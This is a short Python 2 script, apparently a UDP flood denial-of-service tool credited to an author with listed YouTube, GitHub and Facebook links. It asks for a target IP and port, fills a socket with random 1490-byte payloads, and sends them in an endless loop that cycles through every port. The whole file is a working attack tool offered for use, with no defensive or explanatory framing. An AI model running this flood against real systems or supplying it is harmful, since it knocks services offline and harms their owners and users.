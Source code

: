 import sys
import os
import time
import socket
import random
##############
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)
#############

os.system("clear")
os.system("figlet DDos-IP")
print
print "Author   : HA-MRX"
print "You Tube : https://www.youtube.com/c/HA-MRX"
print "github   : https://github.com/Ha3MrX"
print "Facebook : https://www.facebook.com/muhamad.jabar222"
print
ip = raw_input("IP Target : ")
port = input("Port       : ")
sent = 0
while True:
     sock.sendto(bytes, (ip,port))
     sent = sent + 1
     port = port + 1
     print "Sent %s packet to %s throught port:%s"%(sent,ip,port)
     if port == 65534:
       port = 1

